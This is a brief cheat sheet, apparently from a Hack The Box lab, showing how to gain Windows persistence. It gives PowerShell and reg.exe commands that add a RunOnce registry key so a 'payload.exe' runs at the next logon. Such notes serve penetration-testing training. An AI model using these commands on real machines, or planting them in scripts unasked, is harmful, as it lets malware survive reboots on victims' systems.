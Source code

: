 # PowerShell 

Create key

```powershell-session
New-Item -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\ -Name TestKey
```

Set property 

```powershell-session
New-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\TestKey -Name  "access" -PropertyType String -Value "C:\Users\htb-student\Downloads\payload.exe"
```

# Reg.exe 

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce\TestKey" /v access /t REG_SZ /d "C:\Users\htb-student\Downloads\payload.exe"  
```